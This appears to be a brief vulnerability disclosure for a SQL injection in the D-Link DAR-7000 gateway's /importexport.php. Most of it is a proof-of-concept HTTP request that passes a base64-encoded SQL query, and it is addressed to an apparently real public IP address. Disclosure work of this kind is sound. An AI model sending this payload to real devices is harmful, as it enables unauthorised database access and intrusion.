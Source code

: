 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.
official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/importexport.php
![Uploading 图片.png…]()
poc：
```
GET /importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql HTTP/1.1
Host: 60.22.74.195:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Construct POC and successfully obtain database name and version
![Uploading 图片.png…]()

